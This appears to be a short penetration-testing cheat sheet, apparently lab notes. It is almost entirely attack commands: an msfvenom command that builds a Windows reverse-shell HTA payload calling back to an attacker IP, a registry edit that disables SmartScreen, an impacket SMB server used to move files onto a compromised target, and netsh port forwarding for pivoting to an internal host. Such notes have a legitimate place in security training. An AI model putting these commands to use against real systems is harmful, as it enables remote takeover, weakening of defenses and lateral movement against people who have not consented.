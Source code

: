 # HTML Application Reverse Shell

## Use msfvenom to create a reverse shell in windows
```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.152 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

# Post Exploitation


## Disable Smart Screen
Run this from Windows Command Prompt
```
REG ADD "HKLM\Software\Microsoft\Windows\CurrentVersion\AppHost" /v EnableWebContentEvaluation /t REG_DWORD /d 0
```
## Host your own smb server to transfer files to target
This will run a smb server called \\\kali on your machine
```
 sudo impacket-smbserver kali /home/kali -smb2support -username kali -password kali
 ```

 On Windows host (target machine connecting back to your new smb share)
 ```
 net use k: \\192.168.119.152\kali /user:kali kali
The command completed successfully.


C:\>k:

K:\>
```

# Port forwarding

## netsh
We are trying to forward traffic on local socket 192.168.152.10:4455 to remote socket 172.16.152.5:445

Windows 2016 Server: 172.16.152.5
Windows 10 Client: 192.168.152.10

### Forward traffic from local port 4455 to remote machine
```
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=192.168.152.10 connectport=445 connectaddress=172.16.152.5
```
